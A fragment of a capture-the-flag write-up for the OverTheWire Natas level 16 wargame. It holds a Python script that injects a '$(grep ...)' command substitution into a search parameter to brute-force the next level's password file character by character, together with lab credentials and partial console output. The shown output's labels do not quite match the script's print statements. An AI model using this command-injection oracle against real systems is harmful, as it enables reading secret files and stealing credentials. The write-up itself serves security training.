 To repeat: If grep a is true > outputs a > changes aFriday > no output (YES!)
           If grep a is false > outputs nothing > Friday doesn't change > outputs dictionary.txt for grep Friday
           
```
#!/usr/bin/python

import requests

chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
exist = ''
password = ''
target = 'http://natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh*@natas16.natas.labs.overthewire.org/'
trueStr = 'Output:\n<pre>\n</pre>'

for x in chars:
        r = requests.get(target+'?needle=$(grep '+x+' /etc/natas_webpass/natas17)Fridays')
        if r.content.find(trueStr) != -1:
                exist += x
                print 'Using: ' + exist

print 'All characters used. Starting brute force... Grab a coffee, might take a while!'

for i in range(32):
        for c in exist:
                r = requests.get(target+'?needle=$(grep ^'+password+c+' /etc/natas_webpass/natas17)Fridays')
                if r.content.find(trueStr) != -1:
                        password += c
                        print 'Password: ' + password + '*' * int(32 - len(password))
                        break
                        
print 'Completed!'

root@kali:~# ./brute.py
Used chars: 0
Used chars: 03
Used chars: 035
Used chars: 0357
Used chars: 03578
Used chars: 035789
Used chars: 035789b
Used chars: 035789bc
Used chars: 035789bcd
Used chars: 035789bcdg
Used chars: 035789bcdgh
Used chars: 035789bcdghk
Used chars: 035789bcdghkm
Used chars: 035789bcdghkmn
Used chars: 035789bcdghkmnq
Used chars: 035789bcdghkmnqr
Used chars: 035789bcdghkmnqrs
Used chars: 035789bcdghkmnqrsw
Used chars: 035789bcdghkmnqrswA
Used chars: 035789bcdghkmnqrswAG
Used chars: 035789bcdghkmnqrswAGH
Used chars: 035789bcdghkmnqrswAGHN
Used chars: 035789bcdghkmnqrswAGHNP
Used chars: 035789bcdghkmnqrswAGHNPQ
Used chars: 035789bcdghkmnqrswAGHNPQS
Used chars: 035789bcdghkmnqrswAGHNPQSW
All characters used. Starting brute force... Grab a coffee, might take a while!
Password: 8*******************************
Password: 8P******************************
```